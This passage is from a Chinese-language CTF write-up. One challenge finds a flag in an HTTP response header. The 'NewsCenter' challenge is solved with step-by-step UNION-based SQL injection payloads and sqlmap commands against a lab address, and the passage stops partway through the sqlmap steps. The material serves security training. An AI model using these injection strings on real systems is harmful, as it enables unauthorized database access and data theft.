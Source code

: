 > 1. 根据提示，在url中输入index.php,发现打开的仍然还是1.php
> 2. 打开火狐浏览器的开发者模式，选择网络模块，再次请求index.php,查看返回包，可以看到`location`参数被设置了1.php，并且得到flag。

**总结**：index.php的响应头如下
```http
Connection: Keep-Alive
Content-Length: 17
Content-Type: text/html; charset=UTF-8
Date: Sun, 23 Feb 2020 03:15:42 GMT
FLAG: flag{very_baby_web}
Keep-Alive: timeout=5, max=100
Location: 1.php
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.21
```
页面自动跳转可能是因为设置了响应的`Location`头，线索可能在响应头里。2020.2.23.Sun

---

# 3. NewsCenter
**题目来源**： XCTF 4th-QCTF-2018  
**题目描述**：如题目环境报错，稍等片刻刷新即可  

**WP**:
> **目标**  
> 简单的SQL注入，读取`information_schema`元数据，然后读取flag。
sqlmap 也可解。
> 
> **环境**  
> windows
> 
> **工具**  
> sqlmap
> 
> **分析过程**
> 1. 初步探测,发现搜索框存在注入
>       ```sql
>       ' union select 1,2,3 #
>       ```
> 2. 获取数据库名，表名
>       ```sql
>       ' and 0 union select 1,TABLE_SCHEMA,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS #
>       ```
> 3. 获取news表的字段名，数据类型
>       ```sql
>       ' and 0 union select 1,column_name,data_type from information_schema.columns where table_name='news'#
>       ```
> 4. 获取f1agfl4gher3字段名 数据类型
>       ```sql
>       ' and 0 union select 1,column_name,data_type from information_schema.columns where table_name='secret_table'#
>       ```
> 5. 得到flag
>       ```sql
>       ' and 0 union select 1,2,fl4g from secret_table #
>       ```
> 
> sqlmap版本
> 1. 获取注入点
>       ```bash
>       sqlmap -u http://192.168.100.161:53459 --data "search=df"
>       ```
> 2. 获取数据库信息